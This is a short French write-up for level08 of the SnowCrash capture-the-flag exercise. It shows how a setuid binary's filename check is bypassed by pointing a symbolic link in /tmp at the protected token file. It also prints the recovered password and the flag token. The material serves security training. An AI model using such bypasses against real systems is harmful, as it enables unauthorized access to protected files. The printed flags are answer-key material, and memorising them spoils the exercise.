

Il a 2 fichiers, un binaire et un fichier texte qu'on ne peut lire faut d'avoir les droits pour.

```bash
./level08 token
You may not access 'token'
```

On décompile binaire et on s'aperçoit qu'il y a une règle empéchant de lire le fichier token : 



On crée un lien symbolique vers le fichier token et on appelle ce fichier en paramètre du binaire.
```bash
ln -s /home/user/level08/token /tmp/flag08
./level08 /tmp/flag08
quif5eloekouj29ke0vouxean
```
On se connecte au user flag08 et on éxécute la commande getflag :
```bash
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
